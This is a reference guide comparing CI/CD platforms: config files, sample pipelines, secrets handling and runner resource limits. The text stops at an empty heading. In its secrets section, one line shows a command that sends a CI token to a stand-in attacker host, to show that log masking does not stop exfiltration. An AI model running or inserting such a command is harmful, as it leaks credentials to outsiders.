









# CI/CD Platforms

How a repository becomes a pipeline: which file to add, what goes in it, how the platform reaches your code, where secrets live, and what resources your jobs actually get. Covers **GitLab CI**, **GitHub Actions**, **Azure Pipelines**, **Jenkins**, and **Vercel**.

---

## 0. "CI/CD" Is Three Things

The abbreviation hides an ambiguity: **CI** means one thing, **CD** means two, and the difference between the two CDs is a business decision, not a technical one.

| Term | Stands for | The question it answers | Ends with |
|---|---|---|---|
| **CI** | Continuous **Integration** | *Does this change break anything?* | A verified build + test result on every push |
| **CD** | Continuous **Delivery** | *Could we release right now if we chose to?* | An artifact ready to deploy — a human presses the button |
| **CD** | Continuous **Deployment** | *Why would a human press the button?* | Every green commit is live in production, automatically |



Everything left of "Build artifact" is **CI**. Everything right of it is **CD**. The only difference between Delivery and Deployment is whether that gate exists.

- **CI is non-negotiable** and the cheapest thing on this page. If you do nothing else, run your tests on every push.
- **Continuous Delivery is the sane default.** You are always *able* to ship; you decide *when*.
- **Continuous Deployment must be earned** — strong tests, feature flags, fast rollback, real monitoring. Without those it is an automated way to break production.

Vercel is Continuous Deployment out of the box. GitLab, GitHub, Azure Pipelines, and Jenkins give you the gate and let you choose.

For where this sits in the wider delivery process, see [Lifecycle → CI/CD](../basics/lifecycle.md#cicd).

---

## 1. What Makes a Repo "Have CI/CD"

One file, in a path the platform looks for.

| Platform | File you add | Location | Language |
|---|---|---|---|
| **GitLab CI** | `.gitlab-ci.yml` | Repo root | YAML |
| **GitHub Actions** | `ci.yml` (any name) | `.github/workflows/` | YAML |
| **Azure Pipelines** | `azure-pipelines.yml` | Repo root (default) | YAML |
| **Jenkins** | `Jenkinsfile` | Repo root | Groovy DSL |
| **Vercel** | *nothing required* | `vercel.json` / `vercel.ts` at root | JSON / TypeScript |

GitLab, GitHub, and Jenkins read that file and do what it says. **Azure Pipelines has a first-run step**: the YAML file does nothing until you create a pipeline once in the web UI (or with `az pipelines create`) and point it at the file — after that, pushes trigger it like the others. **Vercel is different**: it inspects `package.json` and your directory layout, detects the framework, and applies a preset install and build command. You add `vercel.json` only to *override* something.

---

## 2. How the Platform Reaches Your Code

The shape is the same everywhere:



What differs is **which direction the connection opens** — and that decides your firewall, not your YAML.



| Platform | Connection | Needs an inbound port? |
|---|---|---|
| **GitLab CI** | Runner registers with a token, then **long-polls** the coordinator | **No** |
| **GitHub Actions** | Same model — runner polls out | **No** |
| **Azure Pipelines** | Same model — the agent registers, then **long-polls** the job queue | **No** |
| **Jenkins** | Forge sends a **webhook** to your Jenkins URL | **Yes**, or fall back to SCM polling |
| **Vercel** | You install the Vercel **Git App**; the forge webhooks Vercel | No — Vercel is the public endpoint |

**GitLab and GitHub runners and Azure Pipelines agents work from behind NAT with no ports open** — they dial out. **Jenkins is a server**: the forge must reach it, which means a public URL, a tunnel, or slow SCM polling. That single fact drives most of the "why is Jenkins harder to host" experience.

---

## 3. GitLab CI — `.gitlab-ci.yml`



### Top-level keywords

| Keyword | What it does |
|---|---|
| `stages` | Names and order of pipeline stages |
| `default` | Default values inherited by all jobs — `image`, `before_script`, `retry`, `tags` |
| `variables` | Pipeline-wide CI/CD variables |
| `workflow` | Controls whether the pipeline runs at all — the top-level gate |
| `include` | Import config from other files, projects, templates, or components |
| `spec` | Declare typed `inputs` for a reusable config file |

### Job keywords

Anything that isn't a reserved word is a job name. These are the keywords inside one:

| Keyword | What it does |
|---|---|
| `script` | The shell commands to run. The only required key |
| `before_script` / `after_script` | Commands run before / after `script`. `after_script` runs even on failure |
| `stage` | Which stage the job belongs to |
| `image` | Docker image the job runs in |
| `services` | Sidecar containers — databases, or `docker:dind` for a Docker daemon |
| `needs` | Depend on specific jobs instead of the whole previous stage — turns the pipeline into a **DAG** |
| `rules` | Conditions deciding whether the job exists, and with what attributes |
| `artifacts` | Files to keep and pass to later jobs |
| `cache` | Files to reuse across pipeline runs |
| `dependencies` | Restrict which artifacts this job downloads |
| `environment` | Name the environment this job deploys to — powers the environments UI and rollback |
| `when` | `on_success`, `on_failure`, `always`, `manual`, `delayed` |
| `allow_failure` | Job may fail without failing the pipeline |
| `retry` | Auto-retry count and conditions |
| `timeout` | Per-job timeout, overriding the project setting |
| `parallel` | Run N copies, or a `matrix` of variable combinations |
| `resource_group` | Serialise jobs that must not run concurrently — deploys, mainly |
| `interruptible` | Let a newer pipeline cancel this job |
| `extends` | Inherit from a hidden job template |
| `tags` | Select which runners may pick the job up |
| `trigger` | Start a downstream pipeline |
| `secrets` | Pull secrets from an external manager |
| `coverage` | Regex to scrape a coverage number from the log |

Full list: [GitLab CI/CD YAML reference](https://docs.gitlab.com/ci/yaml/).

### Useful predefined variables

| Variable | Value |
|---|---|
| `CI_COMMIT_SHA` / `CI_COMMIT_SHORT_SHA` | Full / short commit hash — use as your image tag |
| `CI_COMMIT_BRANCH` | Branch name, absent for tags and MR pipelines |
| `CI_DEFAULT_BRANCH` | Usually `main` — compare against this rather than hardcoding |
| `CI_PIPELINE_SOURCE` | `push`, `merge_request_event`, `schedule`, `web`, `api` |
| `CI_REGISTRY` / `CI_REGISTRY_IMAGE` | Built-in container registry host / this project's image path |
| `CI_JOB_TOKEN` | Short-lived token to authenticate to the registry and API as this job |
| `CI_MERGE_REQUEST_IID` | MR number, on MR pipelines |
| `CI_ENVIRONMENT_NAME` | Resolved `environment:name` |

Full list: [predefined variables](https://docs.gitlab.com/ci/variables/predefined_variables/).

### A realistic file

```yaml
# .gitlab-ci.yml
stages: [test, build, deploy]

default:
  image: python:3.12
  interruptible: true          # newer pipeline cancels this one
  retry:
    max: 2
    when: [runner_system_failure, stuck_or_timeout_failure]

variables:
  PIP_CACHE_DIR: "$CI_PROJECT_DIR/.cache/pip"

workflow:                       # don't run duplicate branch+MR pipelines
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
    - if: $CI_COMMIT_TAG

.python:                        # hidden job = reusable template
  cache:
    key:
      files: [requirements.txt]  # cache invalidates when deps change
    paths: [.cache/pip]
  before_script:
    - pip install -r requirements.txt

lint:
  extends: .python
  stage: test
  script: [ruff check .]

test:
  extends: .python
  stage: test
  script:
    - pytest --junitxml=report.xml --cov=app
  coverage: '/TOTAL.*\s(\d+%)$/'
  artifacts:
    when: always
    reports:
      junit: report.xml         # test results render in the MR

build:
  stage: build
  needs: [lint, test]           # DAG: starts the moment both finish
  image: docker:27
  services: [docker:27-dind]
  script:
    - echo "$CI_REGISTRY_PASSWORD" | docker login -u "$CI_REGISTRY_USER" --password-stdin "$CI_REGISTRY"
    - docker build -t "$CI_REGISTRY_IMAGE:$CI_COMMIT_SHA" .
    - docker push "$CI_REGISTRY_IMAGE:$CI_COMMIT_SHA"
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

deploy:production:
  stage: deploy
  needs: [build]
  environment:
    name: production
    url: https://example.com
  resource_group: production    # never two deploys at once
  when: manual                  # <-- Continuous Delivery, not Deployment
  script:
    - ./deploy.sh "$CI_COMMIT_SHA"
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
```

Notes worth internalising:

- **`stages` vs `needs`.** Stages are a barrier: nothing in stage 2 starts until *all* of stage 1 finishes. `needs` builds a DAG so each job starts as soon as its own dependencies are done. On any pipeline with more than a few jobs, `needs` is a large wall-clock win.
- **`rules` replaced `only`/`except`.** `only`/`except` still work but are no longer developed. Use `rules` with `if`, `changes`, and `exists`.
- **`workflow:rules`** is how you stop the duplicate-pipeline problem where a push to a branch with an open MR runs everything twice.
- **`services: [docker:27-dind]`** is Docker-in-Docker — how you get a daemon inside a job. This is the single most common first-pipeline stumble.
- **`resource_group`** on deploys prevents two pipelines racing to production.
- **Reuse:** `extends` + hidden `.jobs` for local templates, `include` for cross-project, and [CI/CD components](https://docs.gitlab.com/ci/components/) for versioned, publishable building blocks.

---

## 4. GitHub Actions — `.github/workflows/*.yml`



Multiple workflow files are normal and expected — one per concern (`ci.yml`, `release.yml`, `deploy.yml`), each with its own triggers.

### Top-level keys

| Key | What it does |
|---|---|
| `name` / `run-name` | Workflow name / the title of an individual run |
| `on` | Triggers: `push`, `pull_request`, `schedule`, `workflow_dispatch`, `workflow_call`, `workflow_run`, `release` — with `branches`, `tags`, `paths` filters |
| `permissions` | Scopes granted to `GITHUB_TOKEN`. Set this |
| `env` | Environment variables for every job |
| `defaults` | Default `shell` and `working-directory` |
| `concurrency` | Group runs and optionally cancel in-progress ones |
| `jobs` | The work |

### Job and step keys

| Key | What it does |
|---|---|
| `runs-on` | Runner label — `ubuntu-latest`, `ubuntu-slim`, or a self-hosted label |
| `needs` | Job dependencies |
| `if` | Conditional execution, using expressions |
| `strategy.matrix` | Fan out across versions or OSes; `fail-fast`, `max-parallel` |
| `steps[].uses` | Run a published action |
| `steps[].run` | Run a shell command |
| `steps[].with` | Inputs to the action |
| `container` / `services` | Run the job in a container / attach sidecars |
| `timeout-minutes` | Per-job timeout — default is 360, which is far too long |
| `environment` | Deployment environment, which can require reviewers |
| `outputs` | Values passed to dependent jobs |
| `permissions` | Per-job token scopes, narrower than the workflow default |

Full list: [workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax).

### Contexts

Expressions use `${{ }}` and read from contexts: `github` (event, ref, sha, actor), `secrets`, `vars`, `env`, `job`, `steps`, `matrix`, `needs`, `runner`.

```yaml
if: ${{ github.event_name == 'push' && github.ref == 'refs/heads/main' }}
```

### A realistic file

```yaml
# .github/workflows/ci.yml
name: CI

on:
  push:
    branches: [main]
  pull_request:

permissions:
  contents: read                # least privilege; add scopes per job as needed

concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true      # supersede stale runs on the same branch

jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    strategy:
      fail-fast: false
      matrix:
        python: ['3.11', '3.12', '3.13']
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with:
          python-version: ${{ matrix.python }}
          cache: pip            # built-in dependency caching
      - run: pip install -r requirements.txt
      - run: pytest

  build:
    needs: test
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write           # needed to push to GHCR
    steps:
      - uses: actions/checkout@v4
      - uses: docker/login-action@v3
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
      - uses: docker/build-push-action@v6
        with:
          push: true
          tags: ghcr.io/${{ github.repository }}:${{ github.sha }}

  deploy:
    needs: build
    runs-on: ubuntu-latest
    environment: production     # required reviewers configured in repo settings
    permissions:
      id-token: write           # OIDC — no long-lived cloud keys
      contents: read
    steps:
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/deploy
          aws-region: eu-west-1
      - run: ./deploy.sh ${{ github.sha }}
```

Notes worth internalising:

- **`permissions` defaults are too broad.** Set `contents: read` at the top and widen per job. This is the single highest-value line in an Actions file.
- **`GITHUB_TOKEN` is created per run** and expires when it ends — you never manage it. Its power is exactly what `permissions` grants.
- **OIDC (`id-token: write`) beats stored cloud keys.** The job exchanges a signed token for short-lived credentials. Nothing static to leak.
- **`concurrency` with `cancel-in-progress`** stops five queued runs of the same branch burning minutes.
- **Pin actions.** `@v4` is a mutable tag; a SHA is not. For anything touching secrets, pin the SHA.
- **Reuse:** `workflow_call` for whole reusable workflows, composite actions for a bundle of steps.

---

## 5. Azure Pipelines — `azure-pipelines.yml`



Part of Azure DevOps, and works with repos hosted on **Azure Repos, GitHub, or Bitbucket** — you don't need to move your code to use it. The hierarchy is **stages → jobs → steps**, and the YAML lets you start at whichever level you need: a full `stages:` pipeline, a single-stage `jobs:` pipeline, or a single-job `steps:` pipeline.

### Top-level keys

| Key | What it does |
|---|---|
| `trigger` | CI trigger — `branches`, `paths`, `tags` filters, `batch` to coalesce pushes. **Absent = every branch triggers** |
| `pr` | PR trigger — **GitHub and Bitbucket repos only**; Azure Repos PRs are gated by branch policies instead |
| `schedules` | Cron triggers |
| `pool` | Where jobs run: `vmImage:` for Microsoft-hosted, `name:` + `demands:` for self-hosted pools |
| `variables` | Pipeline-wide variables; `- group: name` pulls in a variable group from the Library |
| `parameters` | Typed runtime parameters, chosen at queue time |
| `resources` | Other `repositories`, `pipelines`, `containers`, `webhooks`, `packages` the pipeline consumes |
| `stages` / `jobs` / `steps` | The body, at whichever level you need |
| `extends` | The whole pipeline inherits from a template — the guardrails mechanism |
| `lockBehavior` | How stages queue against an environment's Exclusive Lock check — `sequential` or `runLatest` |
| `name` | Run number format |

### Job and step keys

| Key | What it does |
|---|---|
| `dependsOn` / `condition` | Job dependencies (a DAG, like `needs`) and conditional execution |
| `strategy.matrix` / `maxParallel` | Fan out across variable combinations |
| `timeoutInMinutes` | Per-job timeout — the free tier hard-caps at 60 anyway |
| `container` / `services` | Run the job in a container / attach sidecar containers |
| `deployment` (job type) | A job tracked against an `environment` — deployment history, approvals, and a `runOnce` / `rolling` / `canary` strategy |
| `steps[].script` / `bash` / `pwsh` / `powershell` | Shell steps |
| `steps[].task` | A packaged step — `Docker@2`, `Cache@2`, `PublishTestResults@2` — Azure's equivalent of a GitHub action |
| `steps[].checkout` / `download` / `publish` | Repo checkout / pipeline artifact download and upload |
| `steps[].template` | Include steps, jobs, stages, or variables from a template file |
| `displayName` | Human-readable name in the run UI |
| `continueOnError` | Like GitLab's `allow_failure` |
| `workspace: clean` | What to wipe before the job — matters on self-hosted agents |

Full list: [YAML schema reference](https://learn.microsoft.com/en-us/azure/devops/pipelines/yaml-schema/).

### Useful predefined variables

| Variable | Value |
|---|---|
| `Build.SourceVersion` | Commit SHA — use as your image tag |
| `Build.SourceBranch` / `Build.SourceBranchName` | `refs/heads/main` / `main` |
| `Build.BuildId` / `Build.BuildNumber` | Unique run ID / formatted run number |
| `Build.Reason` | `IndividualCI`, `BatchedCI`, `PullRequest`, `Schedule`, `Manual` |
| `Build.ArtifactStagingDirectory` | Scratch path for artifacts about to be published |
| `System.PullRequest.PullRequestId` | PR number, on PR runs |
| `System.AccessToken` | Short-lived job token for the Azure DevOps API and feeds — must be mapped into `env:` explicitly |
| `Pipeline.Workspace` | Root of the job's working directories |

Full list: [predefined variables](https://learn.microsoft.com/en-us/azure/devops/pipelines/build/variables).

### A realistic file

```yaml
# azure-pipelines.yml
trigger:
  branches:
    include: [main]          # explicit — with no trigger, EVERY branch runs CI

pr: none                     # Azure Repos PRs are gated by branch policy, not here

pool:
  vmImage: 'ubuntu-latest'

variables:
  PIP_CACHE_DIR: $(Pipeline.Workspace)/.pip

stages:
- stage: Test
  jobs:
  - job: test
    timeoutInMinutes: 15
    strategy:
      matrix:
        py312: { pythonVersion: '3.12' }
        py313: { pythonVersion: '3.13' }
    steps:
    - task: UsePythonVersion@0
      inputs:
        versionSpec: $(pythonVersion)
    - task: Cache@2
      inputs:
        key: 'pip | "$(Agent.OS)" | requirements.txt'
        path: $(PIP_CACHE_DIR)
    - script: pip install -r requirements.txt
      displayName: Install dependencies
    - script: pytest --junitxml=report.xml
      displayName: Run tests
    - task: PublishTestResults@2
      condition: succeededOrFailed()    # publish results even when tests fail
      inputs:
        testResultsFiles: report.xml

- stage: Build
  dependsOn: Test
  condition: and(succeeded(), eq(variables['Build.SourceBranch'], 'refs/heads/main'))
  jobs:
  - job: docker
    steps:
    - task: Docker@2
      inputs:
        containerRegistry: 'acr-connection'   # service connection — no stored password
        repository: 'app'
        command: buildAndPush
        tags: $(Build.SourceVersion)

- stage: Deploy
  dependsOn: Build
  condition: and(succeeded(), eq(variables['Build.SourceBranch'], 'refs/heads/main'))
  jobs:
  - deployment: production      # deployment job, not a plain job
    environment: production     # approvals and checks live on the environment
    strategy:
      runOnce:
        deploy:
          steps:
          - script: ./deploy.sh $(Build.SourceVersion)
```

Notes worth internalising:

- **No `trigger:` means every branch triggers.** The opposite default from GitHub Actions. Always write the trigger explicitly.
- **`pr:` does nothing for Azure Repos.** PR validation there is a **branch policy** (a build validation rule on the target branch) configured in the UI — a regular source of "why didn't my PR build run" confusion.
- **Three variable syntaxes.** `$(var)` expands at runtime, `${{ }}` at template compile time, `$[ ]` as a runtime expression — the biggest source of Azure Pipelines confusion. When a `${{ }}` comes up empty, the value usually didn't exist yet at compile time.
- **Approvals live on the environment, not in the YAML.** Like GitHub's `environment`, unlike GitLab's `when: manual`. A `deployment` job targeting `environment: production` picks up whatever approvals and checks the environment defines.
- **`deployment` jobs don't check out your repo.** They download the pipeline's artifacts instead; add `checkout: self` under `deploy: steps:` if you need sources.
- **Secret variables are not exported to the environment.** Unlike the other platforms, a secret is invisible to scripts until you map it: `env: { MY_TOKEN: $(MyToken) }` on the step.
- **Service connections + workload identity federation** are the OIDC story: the pipeline exchanges a federated token for Azure credentials, nothing static stored. This is now the recommended default over service principal secrets.
- **Reuse:** `template` for steps/jobs/stages/variables, `extends` for whole-pipeline inheritance. `extends` from a fixed template — enforced by a "required template" check on the environment — is how organisations stop teams deploying from unreviewed YAML.

---

## 6. Jenkins — `Jenkinsfile`



Jenkins is the only one of the five you host yourself, so it is the only one where the *controller* is your problem. Use a **Multibranch Pipeline** or **Organization Folder** job: it scans branches and PRs, finds a `Jenkinsfile` in each, and creates jobs automatically.

### Declarative pipeline structure

| Directive | What it does |
|---|---|
| `agent` | Where to run: `any`, `none`, `label 'x'`, `docker`, `dockerfile`, `kubernetes` |
| `environment` | Environment variables; supports `credentials('id')` |
| `options` | `timeout`, `retry`, `buildDiscarder`, `disableConcurrentBuilds`, `timestamps` |
| `parameters` | Inputs for manually triggered builds |
| `triggers` | `cron`, `pollSCM`, `upstream` — unnecessary if webhooks work |
| `tools` | Auto-install a JDK, Maven, or Node version |
| `stages` / `stage` | The pipeline body |
| `steps` | Commands: `sh`, `bat`, `withCredentials`, `archiveArtifacts`, `junit` |
| `when` | Conditional stage execution — `branch`, `changeRequest`, `expression` |
| `parallel` | Run stages concurrently |
| `matrix` | Fan out over `axes`, with `excludes` |
| `input` | Pause for human approval — the CD gate |
| `post` | `always`, `success`, `failure`, `unstable`, `changed`, `cleanup` |

Full reference: [Pipeline syntax](https://www.jenkins.io/doc/book/pipeline/syntax/).

### A realistic file

```groovy
// Jenkinsfile
pipeline {
  agent none                              // pick an agent per stage

  options {
    timeout(time: 30, unit: 'MINUTES')
    buildDiscarder(logRotator(numToKeepStr: '30'))
    disableConcurrentBuilds()
    timestamps()
  }

  environment {
    REGISTRY = 'registry.example.com'
    IMAGE    = "${REGISTRY}/app:${env.GIT_COMMIT}"
  }

  stages {
    stage('Test') {
      agent { docker { image 'python:3.12'; args '--memory=4g --cpus=2' } }
      steps {
        sh 'pip install -r requirements.txt'
        sh 'pytest --junitxml=report.xml'
      }
      post {
        always { junit 'report.xml' }     // publish results even on failure
      }
    }

    stage('Build and push') {
      when { branch 'main' }
      agent { label 'docker' }
      steps {
        withCredentials([usernamePassword(
            credentialsId: 'registry-creds',
            usernameVariable: 'U', passwordVariable: 'P')]) {
          sh 'echo "$P" | docker login -u "$U" --password-stdin $REGISTRY'
          sh 'docker build -t $IMAGE .'
          sh 'docker push $IMAGE'
        }
      }
    }

    stage('Approve') {
      when { branch 'main' }
      steps {
        input message: 'Deploy to production?', ok: 'Deploy'
      }
    }

    stage('Deploy') {
      when { branch 'main' }
      agent { label 'deploy' }
      steps { sh "./deploy.sh ${env.GIT_COMMIT}" }
    }
  }

  post {
    failure { slackSend channel: '#ci', message: "FAILED ${env.BUILD_URL}" }
    cleanup { cleanWs() }                 // reclaim disk on the agent
  }
}
```

Notes worth internalising:

- **`agent none` at the top, an agent per stage.** Otherwise you hold an executor while waiting for approval.
- **Never build on the controller.** One runaway job takes Jenkins down with it.
- **`cleanWs()` in `post`.** Jenkins agents are long-lived, so workspaces accumulate until the disk dies. See §9.
- **Declarative over scripted.** Scripted (bare Groovy) is more powerful and much harder to maintain; reach for it only when declarative genuinely can't express the thing.
- **Shared libraries** (`@Library('my-lib')`) are how you avoid copying the same 200 lines into 40 repos.
- **`disableConcurrentBuilds()`** is Jenkins' equivalent of GitLab's `resource_group`.

---

## 7. Vercel — `vercel.json` (Optional)



The mental model is different from the other three. You are not writing a pipeline — you are granting a platform read access to your repo. Every push produces an **immutable deployment** with its own URL. Production is just an **alias** pointing at one of them, which is why **rollback is repointing the alias**, not rebuilding.

- Push to the production branch → **production deployment**
- Push to any other branch → **preview deployment**, commented on the PR

### `vercel.json` keys

| Key | What it does |
|---|---|
| `$schema` | Enables IDE autocomplete and validation |
| `framework` | Override the detected framework preset |
| `buildCommand` / `installCommand` / `devCommand` | Override the detected commands |
| `outputDirectory` | Where the build output lands |
| `rewrites` / `redirects` / `headers` | Routing and response headers |
| `cleanUrls` / `trailingSlash` | URL shape |
| `functions` | Per-function memory, max duration, and runtime |
| `crons` | Scheduled function invocations |
| `regions` / `functionFailoverRegions` | Where functions run |
| `images` | Image optimisation settings |
| `ignoreCommand` | Exit non-zero to skip the build entirely |
| `public` | Make deployment logs and source publicly readable |

There is also **`vercel.ts`**, which supports the same properties but computes them at build time. One config file per project. Full reference: [project configuration](https://vercel.com/docs/project-configuration).

### A realistic file

```json
{
  "$schema": "https://openapi.vercel.sh/vercel.json",
  "framework": "nextjs",
  "buildCommand": "npm run build",
  "outputDirectory": ".next",
  "regions": ["fra1"],
  "functions": {
    "api/report/*.ts": { "memory": 3009, "maxDuration": 60 }
  },
  "crons": [
    { "path": "/api/cron/digest", "schedule": "0 6 * * *" }
  ],
  "headers": [
    {
      "source": "/(.*)",
      "headers": [
        { "key": "X-Content-Type-Options", "value": "nosniff" },
        { "key": "Referrer-Policy", "value": "strict-origin-when-cross-origin" }
      ]
    }
  ],
  "ignoreCommand": "git diff --quiet HEAD^ HEAD -- ./apps/web"
}
```

`ignoreCommand` is the monorepo saver: skip the build when nothing in the relevant path changed.

---

## 8. Environment Variables and Secrets

| Platform | Where you set it | Scoping | Masking |
|---|---|---|---|
| **GitLab** | Settings → CI/CD → Variables, or `variables:` | Project / group / instance; **protected** = protected branches and tags only | **Masked** variables hidden in job logs |
| **GitHub** | Settings → Secrets and variables (`secrets.*`, `vars.*`) | Repo, org, or **environment** with required reviewers | `secrets.*` auto-redacted in logs |
| **Azure Pipelines** | Pipeline → Variables (secret), or Library → **variable groups**, optionally linked to **Azure Key Vault** | Per pipeline, or shared via groups; service connections authorized per pipeline | Masked in logs; **not exported to env** — map with `env:` explicitly |
| **Jenkins** | Credentials store, then `credentials()` or `withCredentials` | Global, folder, or per-job | Masked when bound as a credential |
| **Vercel** | Project → Settings → Environment Variables | Per environment: Production / Preview / Development | Mark **Sensitive** to make write-only |

Rules that matter:

- **Never put a secret in the config file.** It is in git history forever. Reference it: `$TOKEN`, `${{ secrets.TOKEN }}`, `credentials('id')`.
- **Prefer OIDC over long-lived cloud keys.** All three CI platforms can exchange a short-lived signed token for AWS/GCP/Azure credentials. Nothing static to leak or rotate.
- **Scope to protected branches and environments.** A production deploy key readable from every feature branch is readable by anyone who can push a branch.
- **Fork pull requests are hostile input.** GitHub withholds secrets from fork PRs by default — do not defeat that with `pull_request_target` casually. Vercel requires explicit authorization to deploy a fork PR for the same reason.
- **Masking is not security.** It hides a literal string in logs; it does not stop `curl attacker.com -d "$TOKEN"`.
- **Separate config from secrets.** GitLab variables and GitHub `vars.*` are for non-sensitive config — use them, so the secret list stays short enough to audit.

---

## 9. Resource Control: CPU, RAM, Disk

### GitHub Actions — fixed tiers

Hosted runner specs, **as of August 2026** ([reference](https://docs.github.com/en/actions/reference/runners/github-hosted-runners)):

| Label | Repo type | CPU | RAM | SSD |
|---|---|:-:|:-:|:-:|
| `ubuntu-latest` | **Public** | 4 | 16 GB | 14 GB |
| `ubuntu-latest` | **Private** | 2 | 8 GB | 14 GB |
| `ubuntu-slim` | Either | 1 | 5 GB | 14 GB |

Not tunable — pick a label, pay for larger runners, or self-host. `ubuntu-slim` has a **15-minute job timeout**.

### Azure Pipelines — fixed, and small

Microsoft-hosted agents (Windows and Linux) are all one size, **as of August 2026** ([reference](https://learn.microsoft.com/en-us/azure/devops/pipelines/agents/hosted)): **2 vCPU, 7 GB RAM, 14 GB SSD** (a Standard_DS2_v2), of which at least **10 GB is free** for your job. On Linux, steps run in a cgroup capped at **6 GB of physical memory**. Every job gets a fresh VM, discarded afterwards.

Not tunable — Microsoft explicitly won't provision bigger machines. The escape hatches are self-hosted agents, scale set agents, or Managed DevOps Pools.

The free tier (private projects, unlocked by linking an Azure subscription) is **1 parallel job, 60 minutes per job, 1,800 minutes per month**. Paid parallel jobs remove the monthly cap and raise the per-job limit to 360 minutes. Self-hosted jobs have no time limits — one parallel job free, plus one per Visual Studio Enterprise subscriber.

### GitLab — you configure the runner

```toml
# /etc/gitlab-runner/config.toml
concurrent = 4                     # total jobs across all runners on this host

[[runners]]
  request_concurrency = 1
  [runners.docker]
    memory = "4g"
    memory_swap = "4g"
    memory_reservation = "2g"
    cpus = "2"
```

On the Kubernetes executor, set it per job instead:

```yaml
variables:
  KUBERNETES_CPU_REQUEST: "1"
  KUBERNETES_CPU_LIMIT: "2"
  KUBERNETES_MEMORY_REQUEST: "2Gi"
  KUBERNETES_MEMORY_LIMIT: "4Gi"
```

### Jenkins — executors and agents

No per-job limits of its own. Control comes from three places:

- **Executors per agent** — concurrent jobs on one machine. Set it to the core count, not higher.
- **Docker agent args** — `agent { docker { image 'node:22'; args '--memory=4g --cpus=2' } }`.
- **Kubernetes plugin pod templates** — real requests and limits, like any pod.

### Vercel — pick a machine

| Machine | vCPU | Memory | Disk |
|---|:-:|:-:|:-:|
| Standard | 2–4 | 8 GB | 32 GB |
| Enhanced | 8 | 16 GB | 64 GB |
| Turbo | 30 | 60 GB | 64 GB |

Fixed limits: **45-minute build timeout**, **1 GB build cache** retained one month, per-plan concurrent build cap. Elastic machines auto-size and bill per CPU-minute. Function memory and duration are separate, set via `functions` in `vercel.json`.

### Disk and inodes on self-hosted runners

